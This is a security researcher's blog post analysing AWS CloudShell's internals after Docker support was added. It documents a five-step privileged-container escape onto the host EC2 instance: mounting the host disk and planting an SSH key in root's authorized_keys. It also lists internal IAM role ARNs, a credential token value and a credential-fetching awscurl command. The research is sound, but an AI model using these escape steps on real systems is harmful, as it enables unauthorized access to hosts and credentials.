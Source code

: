 ```yaml
---
layout: post
title: Deep dive into AWS CloudShell
date:
  created: 2024-01-11T21:07:00
categories:
  - AWS
---
```


<!-- more -->

AWS CloudShell got a [new capability][whats-new] in January 2024: running Docker 
containers. This piqued my curiosity because Docker-in-Docker usually implies
privileged containers, and I have previously used that to [escape CodeBuild][codebuild]
onto the parent EC2 instance. I wanted to know if the same could be done in 
CloudShell - and how its AWS credential system worked (the environment inherits
the user's credentials, unlike CodeBuild). The short answer is "it can be done", 
and this post goes into a) how to do it and b) documenting what I could learn 
about the inner workings of CloudShell.

## Container escape

The CloudShell environment itself runs on a container on an EC2 instance. "Escaping" 
the container is relatively easy because it is a privileged container. These are 
the steps I took:

1. `sudo -i` to start a shell as `root`.
2. `mkdir /host && mount /dev/nvme0n1p1 /host`. This mounts the host EC2 
   filesystem into the `/host` directory of the container. 
3. `ssh-keygen` to generate an SSH keypair.
4. `cat /root/.ssh/id_rsa.pub >> /host/root/.ssh/authorized_keys`
5. `ssh $(uname -n)` to SSH into the host EC2 instance.

## Looking around

Once on the EC2 instance, I was interested to see how the credentials were provided
to the CloudShell environment. The CloudShell environment has the following two
environment variables that determine credential retrieval:

* `AWS_CONTAINER_CREDENTIALS_FULL_URI=http://localhost:1338/latest/meta-data/container/security-credentials`
* `AWS_CONTAINER_AUTHORIZATION_TOKEN=T0yMmQ5cHLbmd15fL45al1bK1Aw/Ty6rNtQ8V4Q/3DM=`

The first env var is the URL that the AWS CLI and SDKs will send a GET request 
to get credentials. The second env var contains the value sent in the `Authorization`
request header during that request. Based on this, we now know there's a program
listening on local port 1338 and vending credentials - we'll use that in our 
search.

### Containers

On the EC2 host, I ran `docker ps` and saw a few containers running. Running 
`docker inspect $cid` on them reveals that they are managed by AWS ECS. The image 
itself is `507722522093.dkr.ecr.ap-southeast-2.amazonaws.com/mde-images:live_base_100`.
I have copied this to [public.ecr.aws/aidansteele/cloudshell:live_base_100][top-image]
if you want to take a look. 

There are two relevant containers, both running the above image. The first is 
the "controller" container, running `/usr/bin/controller` in a few different
"modes". The `/usr/bin/controller -mode credentials` process is the interesting
one that is serving port 1338.

The second container is the "base" container. It is running the same binary, but
in `base-container` mode. This process is parent to `dockerd`. It uses this
Docker-in-Docker to run a different image:
`117854687782.dkr.ecr.ap-southeast-2.amazonaws.com/scallop-customer-image:latest-patched` - 
this image is copied to [public.ecr.aws/aidansteele/cloudshell:scallop-customer-image-latest-patched][inner-image]. 
This is where the CloudShell environment exists, so it's actually 
Docker-in-Docker-in-Docker. Each CloudShell session runs inside a `tmux` session
in this inner container. 

![diagram](/assets/2024-01-12-diagram.png)

### IAM roles

There are a number of roles involved here:

The EC2 instance role has a role session ARN that looks like this:
`arn:aws:sts::624018990330:assumed-role/moontide-ecs-ec2-cluster-moontidedevstandard1micr-1A1CJ1ZR4CHF9/i-01a473779ad5984cc`. 
This role seems to have the `AmazonEC2ContainerServiceforEC2Role` managed policy
and some explicit denies to further narrow it down.

The ECS-managed containers all use the same "ECS task IAM role". Its ARN looks like:
`arn:aws:sts::624018990330:assumed-role/moontide-task-role-control-plane/i-02d8913df95941b0a22cd3726ead75d0`.

There's the ECS task _execution_ IAM role, used for pulling ECR images and pushing
logs to CloudWatch. Its ARN looks like:
`arn:aws:sts::624018990330:assumed-role/moontide-task-execution-role/i-02d8913df95941b0a22cd3726ead75d0`.

The ECS task IAM role is used by the credential server process to retrieve 
credentials from the private control plane API and return them to the CloudShell
environment on-demand. That API is powered by API Gateway and uses SigV4 (IAM)
authentication. If you install `awscurl` into the "controller" container, you 
can replicate the credential-fetching functionality by running this:

```
awscurl \
  --service execute-api \
  --region ${AWS_REGION} \
  ${CALLBACK_SERVICE_ENDPOINT_DNS}/${INSTANCE_ID}/credentials/role
```

## Assorted thoughts

* There seem to be multiple ECS clusters per CloudShell AWS account. There are
  also multiple CloudShell AWS accounts per region. Two principals in my own account
  got mapped to entirely different CloudShell AWS accounts. I wonder what the
  mapping algorithm is.
* The role session name for the "control plane" role looks like a very long EC2
  instance ID. What is it?
* In my (limited) testing, the EC2 instance is always a t3.medium
* The EC2 instance has a public IP address. I guess this saves money on a NAT
  gateway. It has a security group that allows no inbound traffic, though.
* This "moontide" binary makes a few references to Cloud9, so I think maybe
  there is shared heritage there. I haven't looked into Cloud9 to see how
  closely CloudShell reflects it.
* There are references to interesting objects in S3. I can't figure out how to
  access them. I don't know if that's because they're only useful for Cloud9,
  or there is extra functionality I couldn't reverse-engineer.
* AWS does a good job of defence-in-depth. Even though I "escaped" the container,
  their internal API Gateway is locked down to only allow access in legitimate
  scenarios. Many other places wouldn't do that and have a "soft" interior.
* There is a line in the EC2 userdata that looks like it intends to block access
  to the EC2 IMDS from the containers. It doesn't work, but I'm also so weak at
  `iptables` that I can't even suggest a fix.
* Thanks go to [Christophe Tafani-Dereeper][christophe] and [Nick Frichette][nick] 
  for their collaboration on poking at this. It helped a lot bouncing ideas around 
  with them. 

## Update

I just learned about [this write-up][ronin] of CloudShell published last year.
What stood out to me is that CloudShell previously used Firecracker microVMs,
but no longer does. I wonder why the migration to "regular" EC2 instances occurred.
Maybe it was to support this new functionality (runner Docker containers)?

[whats-new]: https://aws.amazon.com/about-aws/whats-new/2024/01/aws-cloudshell-docker-13-regions/
[codebuild]: https://awsteele.com/blog/2022/02/03/aws-vpc-data-exfiltration-using-codebuild.html
[top-image]: https://ima.ge.cx/public.ecr.aws/aidansteele/cloudshell:live_base_100@sha256:4f0e65aee2f0d3efcee5717afb8d559a413dccdc1077ee9ef214d382baecfc8f
[inner-image]: https://ima.ge.cx/public.ecr.aws/aidansteele/cloudshell:scallop-customer-image-latest-patched@sha256:175f1cd92c6c4cf67433742e3fbf44983430d4f24f6c338241fd1569b0bde700
[christophe]: https://twitter.com/christophetd
[nick]: https://frichetten.com/
[ronin]: https://ronin.ae/news/aws-cloudshell-analysis/
